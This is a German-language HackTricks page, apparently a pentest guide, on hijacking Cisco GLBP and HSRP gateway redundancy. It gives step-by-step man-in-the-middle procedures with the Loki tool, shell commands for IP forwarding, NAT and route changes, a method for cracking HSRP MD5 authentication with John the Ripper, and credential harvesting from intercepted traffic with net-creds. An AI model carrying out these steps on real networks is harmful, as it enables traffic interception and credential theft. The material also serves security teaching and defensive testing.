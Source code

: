 # GLBP & HSRP Angriffe

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP Hijacking Überblick

### Einblicke in FHRP
FHRP ist darauf ausgelegt, Netzwerkrobustheit zu bieten, indem mehrere Router zu einer einzigen virtuellen Einheit zusammengeführt werden, um die Lastenverteilung und Ausfallsicherheit zu verbessern. Cisco Systems hat prominente Protokolle in dieser Suite eingeführt, wie z.B. GLBP und HSRP.

### GLBP Protokoll Einblicke
Ciscos Kreation, GLBP, funktioniert auf dem TCP/IP-Stack und nutzt UDP auf Port 3222 für die Kommunikation. Router in einer GLBP-Gruppe tauschen "hello"-Pakete in 3-Sekunden-Intervallen aus. Wenn ein Router es versäumt, diese Pakete 10 Sekunden lang zu senden, wird davon ausgegangen, dass er offline ist. Diese Timer sind jedoch nicht festgelegt und können geändert werden.

### GLBP Operationen und Lastverteilung
GLBP zeichnet sich dadurch aus, dass es die Lastenverteilung über Router mithilfe einer einzigen virtuellen IP in Verbindung mit mehreren virtuellen MAC-Adressen ermöglicht. In einer GLBP-Gruppe ist jeder Router am Paketweiterleitungsprozess beteiligt. Im Gegensatz zu HSRP/VRRP bietet GLBP echtes Lastenausgleich durch verschiedene Mechanismen:

- **Host-abhängiger Lastenausgleich:** Behält die Zuweisung einer konsistenten AVF-MAC-Adresse an einen Host bei, was für stabile NAT-Konfigurationen unerlässlich ist.
- **Round-Robin-Lastenausgleich:** Der Standardansatz, der die Zuweisung einer AVF-MAC-Adresse abwechselnd unter den anfragenden Hosts durchführt.
- **Gewichteter Round-Robin-Lastenausgleich:** Verteilt die Last basierend auf vordefinierten "Gewichts"-Metriken.

### Schlüsselkomponenten und Terminologien in GLBP
- **AVG (Active Virtual Gateway):** Der Hauptrouter, der für die Zuweisung von MAC-Adressen an Peer-Router verantwortlich ist.
- **AVF (Active Virtual Forwarder):** Ein Router, der zur Verwaltung des Netzwerkverkehrs bestimmt ist.
- **GLBP-Priorität:** Eine Metrik, die den AVG bestimmt, beginnend mit einem Standardwert von 100 und im Bereich von 1 bis 255.
- **GLBP-Gewicht:** Spiegelt die aktuelle Last auf einem Router wider, die entweder manuell oder durch Objektverfolgung angepasst werden kann.
- **GLBP-Virtuelle IP-Adresse:** Dient als Standard-Gateway des Netzwerks für alle verbundenen Geräte.

Für Interaktionen verwendet GLBP die reservierte Multicast-Adresse 224.0.0.102 und den UDP-Port 3222. Router senden "hello"-Pakete in 3-Sekunden-Intervallen und gelten als nicht betriebsbereit, wenn ein Paket über einen Zeitraum von 10 Sekunden verpasst wird.

### GLBP Angriffsmechanismus
Ein Angreifer kann zum primären Router werden, indem er ein GLBP-Paket mit dem höchsten Prioritätswert (255) sendet. Dies kann zu DoS- oder MITM-Angriffen führen, die den Verkehr abfangen oder umleiten können.

### Ausführen eines GLBP-Angriffs mit Loki
[Loki](https://github.com/raizo62/loki_on_kali) kann einen GLBP-Angriff durchführen, indem ein Paket mit Priorität und Gewicht auf 255 injiziert wird. Vor dem Angriff sind Schritte wie das Sammeln von Informationen wie der virtuellen IP-Adresse, der Authentifizierungspräsenz und den Router-Prioritätswerten mithilfe von Tools wie Wireshark erforderlich.

Angriffsschritte:
1. Wechseln Sie in den Promiscuous-Modus und aktivieren Sie die IP-Weiterleitung.
2. Identifizieren Sie den Zielrouter und rufen Sie dessen IP ab.
3. Generieren Sie eine Gratuitous ARP.
4. Injizieren Sie ein bösartiges GLBP-Paket, das den AVG imitiert.
5. Weisen Sie dem Netzwerkinterface des Angreifers eine sekundäre IP-Adresse zu, die der GLBP-Virtual-IP entspricht.
6. Implementieren Sie SNAT für eine vollständige Traffic-Sichtbarkeit.
7. Passen Sie die Routing-Einstellungen an, um weiterhin den Internetzugriff über den ursprünglichen AVG-Router zu gewährleisten.

Durch Befolgen dieser Schritte positioniert sich der Angreifer als "Man in the Middle", der in der Lage ist, den Netzwerkverkehr abzufangen und zu analysieren, einschließlich unverschlüsselter oder sensibler Daten.

Für die Demonstration sind hier die erforderlichen Befehlsschnipsel:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Passive Erklärung des HSRP-Hijackings mit Befehlsdetails

#### Überblick über HSRP (Hot Standby Router/Redundancy Protocol)
HSRP ist ein von Cisco entwickeltes Protokoll für die Redundanz des Netzwerkgateways. Es ermöglicht die Konfiguration mehrerer physischer Router zu einer einzigen logischen Einheit mit einer gemeinsamen IP-Adresse. Diese logische Einheit wird von einem primären Router verwaltet, der für die Weiterleitung des Datenverkehrs verantwortlich ist. Im Gegensatz zu GLBP, das Metriken wie Priorität und Gewicht für die Lastverteilung verwendet, verlässt sich HSRP auf einen einzigen aktiven Router für das Traffic-Management.

#### Rollen und Begriffe in HSRP
- **HSRP Active Router**: Das Gerät, das als Gateway fungiert und den Datenverkehrsfluss verwaltet.
- **HSRP Standby Router**: Ein Backup-Router, der bereit ist, die Rolle des aktiven Routers zu übernehmen, falls dieser ausfällt.
- **HSRP-Gruppe**: Eine Gruppe von Routern, die zusammenarbeiten, um einen einzigen widerstandsfähigen virtuellen Router zu bilden.
- **HSRP-MAC-Adresse**: Eine virtuelle MAC-Adresse, die dem logischen Router im HSRP-Setup zugewiesen ist.
- **HSRP-Virtuelle IP-Adresse**: Die virtuelle IP-Adresse der HSRP-Gruppe, die als Standardgateway für verbundene Geräte fungiert.

#### HSRP-Versionen
HSRP gibt es in zwei Versionen, HSRPv1 und HSRPv2, die sich hauptsächlich in der Gruppenkapazität, der Verwendung von Multicast-IPs und der Struktur der virtuellen MAC-Adresse unterscheiden. Das Protokoll verwendet spezifische Multicast-IP-Adressen für den Austausch von Dienstinformationen, wobei Hello-Pakete alle 3 Sekunden gesendet werden. Ein Router gilt als inaktiv, wenn innerhalb eines Intervalls von 10 Sekunden kein Paket empfangen wird.

#### HSRP-Angriffsmechanismus
HSRP-Angriffe beinhalten das gewaltsame Übernehmen der Rolle des Active Routers durch das Einspritzen eines maximalen Prioritätswerts. Dies kann zu einem Man-In-The-Middle (MITM)-Angriff führen. Wesentliche Vor-Angriffsschritte umfassen das Sammeln von Daten über das HSRP-Setup, was mit Wireshark für die Traffic-Analyse durchgeführt werden kann.

#### Schritte zum Umgehen der HSRP-Authentifizierung
1. Speichern Sie den Netzwerkverkehr, der HSRP-Daten enthält, als .pcap-Datei.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extrahieren Sie MD5-Hashes aus der .pcap-Datei mithilfe von hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Knacken Sie die MD5-Hashes mit John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Ausführen von HSRP-Injektion mit Loki**

1. Starten Sie Loki, um HSRP-Anzeigen zu identifizieren.
2. Setzen Sie die Netzwerkschnittstelle in den Promiscuous-Modus und aktivieren Sie IP-Weiterleitung.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Verwenden Sie Loki, um den spezifischen Router anzugreifen, geben Sie das geknackte HSRP-Passwort ein und führen Sie die erforderlichen Konfigurationen durch, um den Active Router zu imitieren.
4. Nachdem Sie die Rolle des Active Routers übernommen haben, konfigurieren Sie Ihre Netzwerkschnittstelle und IP-Tabellen, um den legitimen Datenverkehr abzufangen.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Ändern Sie die Routing-Tabelle, um den Datenverkehr über den ehemaligen Active Router zu leiten.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Verwenden Sie net-creds.py oder ein ähnliches Dienstprogramm, um Anmeldeinformationen aus dem abgefangenen Datenverkehr zu erfassen.
```shell
sudo python2 net-creds.py -i eth0
```

Durch die Ausführung dieser Schritte kann der Angreifer in die Lage versetzt werden, den Datenverkehr abzufangen und zu manipulieren, ähnlich wie bei der Vorgehensweise beim GLBP-Hijacking. Dies verdeutlicht die Schwachstelle in Redundanzprotokollen wie HSRP und die Notwendigkeit robuster Sicherheitsmaßnahmen.
